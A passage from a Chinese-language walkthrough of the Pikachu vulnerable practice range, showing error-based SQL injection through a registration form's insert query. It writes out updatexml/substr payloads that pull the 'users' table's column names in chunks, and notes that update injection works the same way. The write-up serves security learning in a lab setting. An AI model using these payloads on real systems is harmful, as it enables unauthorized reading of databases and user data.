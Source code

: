 ![image-20230305132809669](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305132809669.png)

两次拼接起来，查询到的完整表名为

```
httpinfo,member,message,users,xssblind
```

查询user表的列

```
username=admin1' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,31),0x7e),1) or'
&password=admin1&sex=11&phonenum=11111111&email=1111&add=1111&submit=submit
```

![image-20230305133229267](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305133229267.png)

```
username=admin1' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),32,31),0x7e),1) or'
&password=admin1&sex=11&phonenum=11111111&email=1111&add=1111&submit=submit
```

![image-20230305133412159](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305133412159.png)

```
username=admin1' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),63,31),0x7e),1) or'
&password=admin1&sex=11&phonenum=11111111&email=1111&add=1111&submit=submit
```

![image-20230305133451847](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305133451847.png)

## Update注入

同insert注入
